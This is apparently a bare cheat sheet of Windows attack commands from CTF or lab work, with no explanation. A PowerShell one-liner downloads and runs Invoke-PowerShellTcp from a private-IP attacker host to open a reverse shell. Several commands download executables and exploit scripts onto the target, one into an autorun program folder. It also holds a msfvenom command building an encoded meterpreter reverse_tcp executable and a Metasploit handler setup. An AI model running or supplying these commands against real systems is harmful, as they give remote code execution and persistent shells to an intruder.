 powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
